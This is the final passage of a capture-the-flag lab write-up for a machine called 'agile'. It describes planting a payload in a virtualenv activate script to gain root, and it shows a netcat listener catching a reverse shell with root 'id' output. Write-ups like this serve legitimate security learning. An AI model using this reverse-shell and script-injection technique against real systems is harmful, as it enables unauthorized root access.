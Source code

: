 When we execute we are not editing `creds.txt`. Instead, we see `/app/venv/bin/activate`

![/app/venv/bin/activate in vim](Images/ativate.png)

To ensure our payload runs at the start of this script, I insert the command before the commented lines:

![Malicious Payload](Images/Payload_added.png)

Now after waiting a few seconds, the connection reaches my kali machine:
```bash
$ nc -nvlp 8888           
listening on [any] 8888 ...
connect to [10.10.14.133] from (UNKNOWN) [10.10.11.203] 60376
bash: cannot set terminal process group (52086): Inappropriate ioctl for device
bash: no job control in this shell
root@agile:~# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Reflection
After the IDOR vulnerability had been patched, this box turned out to be quite difficult! It was my first completion on a medium box, and the technique for remotely viewing the chrome process felt very original. While the sudo exploit felt quite simple, I appreciated that it wasn't completely free since only dev_admin's files were accessible. After going through the pain in generating the debugging PIN and sneaking into the google chrome page, it is nice to have a straightforward route to root.
